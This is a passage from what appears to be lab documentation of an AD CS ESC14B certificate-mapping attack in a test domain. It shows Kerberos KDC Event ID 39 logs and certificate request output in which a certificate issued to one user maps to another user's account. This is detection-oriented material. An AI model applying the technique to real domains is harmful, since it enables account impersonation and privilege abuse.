  <Data Name="Thumbprint">F519BC0B7C5248DBD4435CB043C6108FA762F6EC</Data> 
  <Binary /> 
  </EventData>
  </Event>
```

## StrongCertificateBindingEnforcement = 1 (Warning). Attack work

### **EventID 39 (Warning). The Key Distribution Center (KDC) encountered a user certificate that was valid but could not be mapped to a user in a secure way**

```jsx
The Key Distribution Center (KDC) encountered a user certificate that was valid but could not be mapped to a user in a secure way (such as via explicit mapping, key trust mapping, or a SID). Such certificates should either be replaced or mapped directly to the user via explicit mapping. See https://go.microsoft.com/fwlink/?linkid=2189925 to learn more.

  User: viserys.targaryen
  Certificate Subject: @@@CN=khal.drogo, CN=Users, DC=essos, DC=local
  Certificate Issuer: ESSOS-CA
  Certificate Serial Number: 640000000B1132A4B75C9C94B200000000000B
  Certificate Thumbprint: F519BC0B7C5248DBD4435CB043C6108FA762F6EC

```

```jsx

- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Kerberos-Key-Distribution-Center" Guid="{3FD9DA1A-5A54-46C5-9A26-9BD7C0685056}" EventSourceName="KDC" /> 
  <EventID Qualifiers="32768">39</EventID> 
  <Version>0</Version> 
  <Level>3</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x80000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-15T08:27:56.762524200Z" /> 
  <EventRecordID>7778</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="0" ThreadID="0" /> 
  <Channel>System</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="AccountName">viserys.targaryen</Data> 
  <Data Name="Subject">@@@CN=khal.drogo, CN=Users, DC=essos, DC=local</Data> 
  <Data Name="Issuer">ESSOS-CA</Data> 
  <Data Name="SerialNumber">640000000B1132A4B75C9C94B200000000000B</Data> 
  <Data Name="Thumbprint">F519BC0B7C5248DBD4435CB043C6108FA762F6EC</Data> 
  <Binary /> 
  </EventData>
  </Event>

```

## Get-CertRequest (updated) output

```jsx
CA                                          : braavos.essos.local\ESSOS-CA
Request.ID                                  : 11
Request.RequesterName                       : ESSOS\khal.drogo
Request.CommonName                          : Khal.drogo
Request.CallerName                          : ESSOS\khal.drogo
Request.DistinguishedName                   : CN=Khal.drogo
Request.ClientInformation.MachineName       :
Request.ClientInformation.ProcessName       :
Request.ClientInformation.UserName          :
Request.SubjectAltNamesExtension            :
Request.SubjectAltNamesAttrib               :
UPN                                         : khal.drogo@essos.local
Issued.DistinguishedName                    : CN=khal.drogo, CN=Users, DC=essos, DC=local
Issued.CommonName                           : Users
khal.drogo
CertificateTemplate                         : ESC14B (1.3.6.1.4.1.311.21.8.4859281.13630112.14961328.1132673.3257550.139.12031393.8552775)
EnrollmentFlags                             : {CT_FLAG_INCLUDE_SYMMETRIC_ALGORITHMS, CT_FLAG_NO_SECURITY_EXTENSION, CT_FLAG_AUTO_ENROLLMENT, CT_FLAG_PUBLISH_TO_DS}
SerialNumber                                : 640000000b1132a4b75c9c94b200000000000b
Certificate.SAN                             : RFC822 Name=viserys.targaryen@essos.local
Certificate.ApplicationPolicies             : [1]Application Certificate Policy:Policy Identifier=Encrypting File System, [2]Application Certificate Policy:Policy Identifier=Secure Email,
[3]Application Certificate Policy:Policy Identifier=Client Authentication
Certificate.IssuancePolicies.PolicyName     :
Certificate.IssuancePolicies.GroupCN        :
Certificate.IssuancePolicies.GroupSID       :
Certificate.EKU                             : Encrypting File System (1.3.6.1.4.1.311.10.3.4), Secure Email (1.3.6.1.5.5.7.3.4), Client Authentication (1.3.6.1.5.5.7.3.2)
Certificate.SID_Extension.SID               :
Certificate.SID_Extension.DistinguishedName :
Certificate.SID_Extension.SamAccountName    :
Certificate.SID_Extension.UPN               :
Certificate.SID_Extension.CN                :
RequestDate                                 : 8/14/2025 11:58:37 PM
StartDate                                   : 8/14/2025 11:48:37 PM
EndDate                                     : 8/14/2026 11:48:37 PM
```
